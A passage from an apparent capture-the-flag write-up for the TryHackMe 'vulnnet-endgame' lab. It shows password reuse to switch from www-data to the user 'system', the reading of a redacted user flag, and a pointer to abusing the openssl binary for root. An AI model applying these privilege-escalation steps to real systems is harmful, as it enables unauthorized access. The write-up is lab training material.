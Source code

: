 Boom!! We found a credentials. Now, I assume that the `system` user on the target machine is **using the same password**.

Let's **Switch User** to `system`:

```
www-data@vulnnet-endgame:/tmp$ su system
Password: 
system@vulnnet-endgame:/tmp$ whoami;hostname;id;ip a
system
vulnnet-endgame
uid=1000(system) gid=1000(system) groups=1000(system)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:58:40:e8:92:69 brd ff:ff:ff:ff:ff:ff
    inet 10.10.214.82/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::58:40ff:fee8:9269/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm user `system`!

**user.txt:**
```
system@vulnnet-endgame:~$ cat /home/system/user.txt 
THM{Redacted}
```

## system to root

During the enumeration process in `www-data`, I also found that the `/home/system/Utils` kinda weird:

```
system@vulnnet-endgame:~$ ls -lah
[...]
dr-xr-x---  2 system system 4.0K Jun 14 13:24 Utils
```

Let's check that out:

```
system@vulnnet-endgame:~/Utils$ ls -lah
total 1.1M
dr-xr-x---  2 system system 4.0K Jun 14 13:24 .
drwxr-xr-x 18 system system 4.0K Jun 15 17:12 ..
-r-xr-x---  1 system system 707K Jun 14 13:23 openssl
-r-xr-x---  1 system system 175K Jun 14 13:24 unzip
-r-xr-x---  1 system system 212K Jun 14 13:23 zip
```

In here, we see **3 binaries**.

According to [GTFOBins](https://gtfobins.github.io/gtfobins/openssl/), **`openssl` could be abused to escalate our privilege to root!**

